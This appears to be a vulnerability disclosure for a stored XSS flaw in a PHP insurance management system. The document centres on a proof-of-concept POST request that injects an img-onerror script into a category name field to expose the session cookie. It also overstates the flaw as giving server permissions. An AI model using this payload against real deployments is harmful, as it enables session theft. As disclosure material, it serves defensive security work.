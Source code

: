 ## Affected version: 
Insurance Management System - 1.0

## Vendor:
https://www.sourcecodester.com/users/munyweki

## Software:
https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html

## Vulnerability File:
/e-insurance/Script/admin/core/new_categor

## Description:
There is a stored XSS vulnerability in the name parameter of the added ticket class in the insurance management system. An attacker can use this vulnerability to gain server permissions.

Status: CRITICAL

POC
```
POST /e-insurance/Script/admin/core/new_category2 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://localhost
Connection: close
Referer: http://localhost/e-insurance/Script/admin/?page=ticket_categories
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd; __insuarance__logged=1; __insuarance__key=SK9MGL4R5CQPM34FZSH3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

name=123'"<img src=1 onerror=alert(document.cookie)>&status=1&submit=1
```

Get user cookie


<img width="1510" alt="image" src="https://github.com/user-attachments/assets/ac78198e-68e1-4e63-91e4-0b8ef7b03f24">



<img width="1709" alt="image" src="https://github.com/user-attachments/assets/edd1d7c9-fe69-4090-8a1e-dedc82cc786d">





 
